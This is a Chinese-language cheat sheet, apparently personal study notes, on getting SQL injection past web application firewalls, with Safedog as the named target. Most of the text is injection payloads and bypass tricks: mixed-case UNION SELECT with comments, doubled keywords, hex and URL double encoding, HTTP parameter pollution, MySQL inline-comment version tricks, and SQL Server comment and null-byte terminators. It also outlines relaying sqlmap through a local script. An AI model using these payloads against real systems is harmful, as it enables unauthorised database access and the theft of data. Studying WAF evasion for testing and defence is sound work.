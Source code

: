 ### python脚本

![img](D:\BaiduNetdiskDownload\安全\SQL注入\WAF绕过\WAF绕过_SQL注入.assets\20210504224750.png)

安全狗部分拦截规则

![img](D:\BaiduNetdiskDownload\安全\SQL注入\WAF绕过\WAF绕过_SQL注入.assets\20210504225001.png)

![img](D:\BaiduNetdiskDownload\安全\SQL注入\WAF绕过\WAF绕过_SQL注入.assets\20210504225040.png)

http agent：https://www.feiniaomy.com/post/429.html

### 其他注入方式，中转注入

SQLMAP读取本地脚本——>>本地搭建脚本（请求数据包自定义编写）——>>访问远程地址

```sql
#应用层
大小写/关键字替换
id=1 UnIoN/**/SeLeCT 1,user()
Hex() bin() 等价于ascii()
Sleep() 等价于 benchmark()
Mid()substring() 等价于 substr()
@@user 等价于 User()
@@Version 等价于 version()
各种编码
大小写，URL，hex，%0A等
注释使用
// -- --+ # /**/ + :%00 /!**/等
再次循环(双写绕过)
union==uunionnion
等价替换
user()=@@user() and=& or=| ascii=hex等
参数污染（搜一下相关博客）
?id=1&id=2&id=3

编码解码及加密解密
s->%73->%25%37%33
hex,unlcode,base64等

更改请求提交方式
GET POST COOKIE等
POST->multipart/form-data

中间件HPP参数污染

#数据库特性
1、Mysql技巧
（1）mysql注释符有三种：#、/*...*/、--  ... 
(注意--后面有一个空格)
（2）空格符:[0x09,0x0a-0x0d,0x20,0xa0]
（3）特殊符号：%a 换行符
   可结合注释符使用%23%0a，%2d%2d%0a。
（3）内联注释：
   /*!UnIon12345SelEcT*/ 1,user()   
   //数字范围 1000-50540
（4）mysql黑魔法
   select{x username}from {x11 test.admin};

2、SQL Server技巧
（1）用来注释掉注射后查询的其余部分：
    /*      C语言风格注释
    --      SQL注释
    ; 00％ 空字节
```